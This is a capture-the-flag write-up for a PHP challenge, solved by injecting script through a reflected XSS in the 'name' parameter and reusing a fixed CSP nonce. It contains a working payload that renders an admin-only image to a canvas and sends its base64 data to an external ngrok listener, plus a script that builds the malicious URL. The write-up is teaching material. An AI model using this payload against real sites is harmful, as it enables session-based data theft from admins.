

# imgfiltrate

Can you yoink an image from the admin page?

App: http://35.224.135.84:3200 \
Admin bot: http://35.224.135.84:3201

Attachments: `imgfiltrate.zip`

> Hint:
> In this challenge there are two services: the web app and the admin bot.
> docker-compose creates an internal network for these two services, and the
> web app has an internal hostname set to imgfiltrate.hub.
> Note that the admin bot's cookie is set for this internal domain, not the
> external domain at 35.224.135.84. This means that when you submit a URL to
> the admin bot, you must do something like: `http://imgfiltrate.hub/<stuff>`

## Solution

We're given a a simple PHP web app:



The image is shown with ``. In `flag.php` we have:
```php
<?php

header('Content-Type: image/png');

if (isset($_COOKIE['token']) && $_COOKIE['token'] === getenv('TOKEN')) {
    $filepath = '/opt/flag.png';
} else {
    $filepath = '/opt/no_flag.png';
}

echo file_get_contents($filepath);
```

So only the admin will be able to see the flag image.

Next we have an XSS via the `name` parameter:
```php
<h1>Hello <?php echo $_GET['name'] ?? 'bozo' ?></h1>
<p>Unfortunately, only the admin can see the flag.</p>
```

However, there's a fairly strict CSP in place.
``` php
<meta http-equiv="Content-Security-Policy" content="default-src 'none'; img-src 'self'; script-src 'nonce-<?php echo $nonce ?>';">
```

Luckily, the challenge author is an idiot and set the `nonce` to a fixed value:
```php
<?php $nonce = "70861e83ad7f1863b3020799df93e450"; ?>
```

So we can still get XSS:
http://localhost:5000/?name=qxxxb%3C/h1%3E%3Cscript%20nonce=%2270861e83ad7f1863b3020799df93e450%22%3Ealert(1)%3C/script%3E

The real challenge is to figure out how to exfiltrate an image. Usually you can
just do `fetch("flag.php")` and then forward the blob to your listener, but the
CSP prevents that.

The [solution](https://stackoverflow.com/a/6150397) is to create a `<canvas>`
element and draw the image onto it, then call `canavs.toDataURL()` to get a
Base64 string of the image.

```javascript
document.getElementById("flag").onload = (e) => {
  const img = e.target;
  console.log(img);
  const canvas = document.createElement("canvas");
  canvas.width = img.width;
  canvas.height = img.height;
  const ctx = canvas.getContext("2d");
  ctx.drawImage(img, 0, 0);
  const dataURL = canvas.toDataURL("image/png");
  console.log(dataURL);
  window.location.href = `http://cc24c17b05fa.ngrok.io/${encodeURIComponent(
    dataURL
  )}`;
};
```

```python
import urllib.parse

url = "http://imgfiltrate.hub"
nonce = "70861e83ad7f1863b3020799df93e450"

js = open("solve.js").read()

s = """qxxxb</h1>
<script nonce="{}" defer>
{}
</script>
""".format(
    nonce, js
)

p = urllib.parse.quote(s, safe="")
u = f"{url}/?name={p}"
print(u)
```

Flag: `CCC{c4nvas_b64}`

> Note: Some teams had issues with the image being truncated to due length
> limitations on the URL. I personally did not run into this issue, but you can
> overcome this by exfiltrating the image in chunks.
